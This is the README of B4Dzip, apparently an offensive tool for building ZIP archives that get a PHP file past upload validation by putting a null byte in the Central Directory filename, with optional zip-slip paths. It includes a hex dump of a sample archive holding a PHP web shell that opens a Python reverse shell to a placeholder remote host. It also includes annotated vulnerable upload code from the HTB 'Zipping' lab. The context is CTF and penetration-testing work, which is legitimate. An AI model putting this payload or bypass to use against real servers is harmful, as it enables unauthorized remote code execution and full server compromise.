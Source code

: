 # B4Dzip

The main purpose of this script is to create a zip file for exploiting File Upload using Null Byte injection.
The vulnerability occurs because the validation of the compressed file extension is performed using the Central 
Directory Header filename and not validating the real filename extension of the decompressed file.
A vulnerable PHP example is explained at the end of this doc.

<br>
More information about ZIP file format can be found [here](https://en.wikipedia.org/wiki/ZIP_(file_format)).


<!-- USAGE EXAMPLES -->
## Usage

```
python3 main.py  --help
usage: B4Dzip [-h] -F FILE -E EXT -P PAYLOAD [-ZS ZIP_SLIP] [-O OUTPUT_FNAME]

Creates a malicious zip file using the given payload as content and injecting NULL Byte in the given
filename, to bypass validations in the Central Directory Header filename.

optional arguments:
  -h, --help            show this help message and exit
  -F FILE, --file FILE  Filename of the file to compress
  -E EXT, --ext EXT     Extension to append after NULL Byte injection.
  -P PAYLOAD, --payload PAYLOAD
                        Payload filepath
  -ZS ZIP_SLIP, --zip-slip ZIP_SLIP
                        Zip Slip parent directory, something like: ../../../
  -O OUTPUT_FNAME, --output-fname OUTPUT_FNAME
                        Output file name
```
## Usage via `runner.sh`

I Highly recommend to use the `runner.sh` file for getting information about usage examples.
The example below shows how a successfull execution of the script should look like.

```
./runner.sh 
b4d.zip saved successfully.


*********** SUMMARY ***********

Archive:  b4d.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      236  2023-08-30 22:43   cc7f82eef39c4d12.php
---------                     -------
      236                     1 file


00000000  50 4b 03 04 0a 00 00 00  00 00 69 b5 1e 57 27 58  |PK........i..W'X|
00000010  57 17 ec 00 00 00 ec 00  00 00 14 00 00 00 63 63  |W.............cc|
00000020  37 66 38 32 65 65 66 33  39 63 34 64 31 32 2e 70  |7f82eef39c4d12.p|
00000030  68 70 3c 3f 70 68 70 20  73 79 73 74 65 6d 28 22  |hp<?php system("|
00000040  65 78 70 6f 72 74 20 52  48 4f 53 54 3d 27 3c 72  |export RHOST='<r|
00000050  68 6f 73 74 3e 27 3b 65  78 70 6f 72 74 20 52 50  |host>';export RP|
00000060  4f 52 54 3d 3c 72 70 6f  72 74 3e 3b 70 79 74 68  |ORT=<rport>;pyth|
00000070  6f 6e 33 20 2d 63 20 5c  22 69 6d 70 6f 72 74 20  |on3 -c \"import |
00000080  73 6f 63 6b 65 74 2c 6f  73 2c 70 74 79 3b 73 3d  |socket,os,pty;s=|
00000090  73 6f 63 6b 65 74 2e 73  6f 63 6b 65 74 28 29 3b  |socket.socket();|
000000a0  73 2e 63 6f 6e 6e 65 63  74 28 28 6f 73 2e 67 65  |s.connect((os.ge|
000000b0  74 65 6e 76 28 27 52 48  4f 53 54 27 29 2c 69 6e  |tenv('RHOST'),in|
000000c0  74 28 6f 73 2e 67 65 74  65 6e 76 28 27 52 50 4f  |t(os.getenv('RPO|
000000d0  52 54 27 29 29 29 29 3b  5b 6f 73 2e 64 75 70 32  |RT'))));[os.dup2|
000000e0  28 73 2e 66 69 6c 65 6e  6f 28 29 2c 66 64 29 20  |(s.fileno(),fd) |
000000f0  66 6f 72 20 66 64 20 69  6e 20 28 30 2c 31 2c 32  |for fd in (0,1,2|
00000100  29 5d 3b 70 74 79 2e 73  70 61 77 6e 28 27 2f 62  |)];pty.spawn('/b|
00000110  69 6e 2f 73 68 27 29 5c  22 22 29 3b 3f 3e 50 4b  |in/sh')\"");?>PK|
00000120  01 02 1e 03 0a 00 00 00  00 00 69 b5 1e 57 27 58  |..........i..W'X|
00000130  57 17 ec 00 00 00 ec 00  00 00 19 00 00 00 00 00  |W...............|
00000140  00 00 00 00 00 00 a4 81  00 00 00 00 63 63 37 66  |............cc7f|
00000150  38 32 65 65 66 33 39 63  34 64 31 32 2e 70 68 70  |82eef39c4d12.php|
00000160  00 2e 70 64 66 50 4b 05  06 00 00 00 00 01 00 01  |..pdfPK.........|
00000170  00 47 00 00 00 1e 01 00  00 00 00                 |.G.........|
0000017b
```

## Vulnerable code example

The following code has been extracted from `HTB - Zipping` and is a good example about how the vulnerability works. Also, it is the main reason why I did this script.

```php
<?php
    ...
    $zip = new ZipArchive;
    if ($zip->open($zipFile) === true) {
      if ($zip->count() > 1) {
        echo '<p>Please include a single PDF file in the archive.<p>';
      } else {
        /* 
            HERE: Checking the Wiki we find that:

            "If the end of central directory record indicates a non-empty
            archive (`cdh_size` and `lfh_size` in `badzip.py`), the name
            of each file or directory within the archive should be specified
            in a central directory entry (`cdh_fname` in `badzip.py`), along
            with other metadata about the entry, and an offset into the ZIP file
            pointing to the actual entry data.

            ...

            "This allows a file listing of the archive to be performed relatively
            quickly, as the entire archive does not have to be read to see
            the list of files."

            TL;DR: $zip->getNameIndex(0) is reading the file name from Central Directory Header :)

            See: https://www.php.net/manual/es/ziparchive.getnameindex.php#refsect1-ziparchive.getnameindex-description
        */
        $fileName = $zip->getNameIndex(0);

        /* 
            HERE: PATHINFO_EXTENSION returns only the last extension,
            so 'example.php\x00.pdf" will be read as .pdf == "pdf"

            See: https://www.php.net/manual/es/function.pathinfo.php#refsect1-function.pathinfo-returnvalues
        */
        if (pathinfo($fileName, PATHINFO_EXTENSION) === "pdf") {
          mkdir($uploadDir);
          echo exec('7z e ' . $zipFile . ' -o' . $uploadDir . '>/dev/null');
          echo '<p>File successfully uploaded and unzipped, a staff member will review your resume as soon as possible. Make sure it has been uploaded correctly by accessing the following path:</p><a href="' . $uploadDir . $fileName . '">' . $uploadDir . $fileName . '</a>' . '</p>';
        } else {
          echo "<p>The unzipped file must have  a .pdf extension.</p>";
        }
      }
    } else {
      echo "Error uploading file.";
    }
    ...
?>
```

## Meta

Diego Muñoz – [LinkedIn](linkedin.com/in/diegomuñozm)

Distributed under the MIT License. Go to ``LICENSE`` for more information.

[See license](https://github.com/0xCronos/B4Dzip/blob/master/LICENSE)


